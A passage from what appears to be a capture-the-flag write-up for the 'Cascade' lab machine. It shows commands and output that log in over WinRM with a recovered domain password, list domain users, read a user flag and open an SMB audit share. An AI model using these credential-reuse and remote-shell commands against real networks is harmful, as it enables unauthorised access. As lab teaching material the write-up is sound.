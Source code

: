 Confirmed valid credentials and they also have access to the `Audit$` share. `WinRM` also comes up trumps this time!:
```bash
evil-winrm -i $target -u s.smith -p sT333ve2
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

Mentioned earlier an account called `TempAdmin` was created, however, when checking this account no longer exists hmpphh:
```bash
*Evil-WinRM* PS C:\Users\s.smith\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
a.turnbull               administrator            arksvc
b.hanson                 BackupSvc                CascGuest
d.burman                 e.crowe                  i.croft
j.allen                  j.goodhand               j.wakefield
krbtgt                   r.thompson               s.hickson
s.smith                  util
The command completed with one or more errors.
```


We can now also obtain `user.txt` from the desktop of `s.smith`:
```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
87<SNIP>28
```

## Obtaining root.txt
## First User
As we identified previously `s.smith` has access to the `Audit$` share, let's go have a look:
```bash
smbclient \\\\$target\\Audit$ -U "CASCADE\s.smith" --password "sT333ve2"
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 18:01:26 2020
  ..                                  D        0  Wed Jan 29 18:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 21:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 18:00:20 2020
  DB                                  D        0  Tue Jan 28 21:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 23:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 06:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 06:38:38 2019
  x64                                 D        0  Sun Jan 26 22:25:27 2020
  x86                                 D        0  Sun Jan 26 22:25:27 2020

                6553343 blocks of size 4096. 1621406 blocks available
smb: \>
```
